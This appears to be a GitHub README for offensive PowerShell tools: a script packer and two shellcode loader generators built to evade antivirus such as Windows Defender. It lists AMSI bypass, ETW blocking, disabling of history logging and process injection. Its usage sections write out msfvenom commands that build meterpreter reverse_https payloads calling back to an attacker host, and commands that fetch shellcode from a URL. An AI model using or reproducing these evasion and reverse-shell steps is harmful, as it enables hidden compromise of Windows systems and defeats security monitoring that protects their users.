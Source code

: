 --------------------------------------
### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' is a simple PowerShell script packer that aims to bypass AV solutions such as Windows Defender.

> Features
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  
> Usage
  - Import-Module ./Invoke-PoSH-Packer.ps1
  - Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
  Or  
  - Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1

--------------------------------------
### Invoke-PoSH-ShellCodeLoader1.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader1' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into the current process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of the current process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o Shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into a target process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o Shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1

--------------------------------------
License: GNU General Public License v3.0
